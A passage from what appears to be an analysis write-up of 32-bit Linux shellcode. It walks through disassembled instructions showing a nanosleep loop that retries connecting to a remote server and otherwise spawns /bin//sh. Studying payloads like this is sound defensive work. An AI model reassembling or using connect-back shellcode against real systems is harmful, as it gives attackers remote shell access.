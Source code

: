 Based on a few files of the Linux kernel, the size of `time_t` should be `4 bytes` on 32-bit `x86` systems, same for the `long` type. So we're looking at a struct made out of `8 bytes`.

The first 4 bytes specify the number of `seconds` to sleep, while the other ones specify the number of `nanoseconds` to sleep.

Since the `stack` grows downward, we have to push the value of `tv_nsec` to the stack first, and then push the value of `tv_sec`.

Let's look again at the struct:

```nasm
                            ; clear EBX
00000082  31DB              xor ebx,ebx

                            ; push the value of `tv_nsec` to the stack
                            ; sleep 0 nanoseconds
00000084  53                push ebx  

                            ; push the value of `tv_sec` to the stack
                            ; sleep 10 seconds
00000085  6A0A              push byte +0xa

                            ; clear EAX and EDX
00000087  F7E3              mul ebx

                            ; 1st argument of nanosleep():
                            ;   pointer to a timespec structure
00000089  89E3              mov ebx,esp
```

Once the shellcode sleeps `10 seconds`, it goes back attempting to connect to the remote server (address `00000014`):

```nasm
                            ; go back to 00000014 (to connect to the remote server)
0000008F  E980FFFFFF        jmp 0x14

                            ; apparently, this instruction is never going to be executed 
00000094  C3                ret
```

Finally, there are some instructions that call the syscall `exit()`, in order to exit gracefully.

```nasm
                            ; call exit() syscall
00000095  31C0              xor eax,eax
00000097  B001              mov al,0x1
00000099  CD80              int 0x80
```

From what it seems, this last syscall is never executed. In fact, there are only two possibilities:

- executes `/bin//sh`
- loops forever, sleeping `10 seconds` and trying to connect to the remote server

Perhaps these instructions were added for conformity with other Linux executable, in order to avoid `standing out`.

